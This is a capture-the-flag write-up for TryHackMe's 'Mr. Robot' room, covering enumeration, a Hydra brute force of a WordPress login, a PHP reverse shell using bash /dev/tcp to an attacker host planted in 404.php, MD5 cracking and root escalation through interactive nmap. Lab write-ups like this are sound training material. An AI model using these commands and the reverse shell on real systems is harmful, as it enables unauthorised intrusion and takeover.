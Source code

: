 # 🕵️ Mr. Robot CTF Writeup (TryHackMe)

**Author:** King  
**Difficulty:** Easy  
**Platform:** TryHackMe

---

##  Enumeration

###  Nmap Scan
```
nmap -sC -sV -oN nmap.txt 10.10.27.9
```
Open ports:

22 (SSH)

80 (HTTP)

### Gobuster
```
gobuster dir -u http://10.10.27.9 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt
```
Discovered:

/robots.txt → contains fsocity.dic ( first flag found)

/license.txt

### 📂 Dictionary Analysis
fsocity.dic used for brute-forcing WordPress login.

### 🔐 WordPress Login
Login page: /wp-login.php

Brute-force with Hydra: 
(it is okay also to use burpsuite's intruder)

```
hydra -l admin -P fsocity.dic 10.10.27.9 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```
Credentials found: admin:robot

### ⚙️ WordPress Dashboard Access
Navigated to plugin editor.

Uploaded reverse shell via 404.php.

### 🖥️ Reverse Shell Deployment
Used PentestMonkey PHP reverse shell:

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.20/4444 0>&1'");
?>
```
Listener setup:

```
nc -lvnp 4444
```
### 🧍 Privilege Escalation
🏁 User Flag
Located at: /home/robot/key-2-of-3.txt

Required password from: /home/robot/password.raw-md5

🔓 Cracking MD5
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

🏁 Root Flag
Used interactive Nmap shell:

bash
nmap --interactive
!sh
Escalated to root.

Final flag found at: /root/key-3-of-3.txt

✅ Summary
Enumeration → Exploitation → Privilege Escalation

Tools used: Nmap, Gobuster, Hydra,burpsuite, John the Ripper
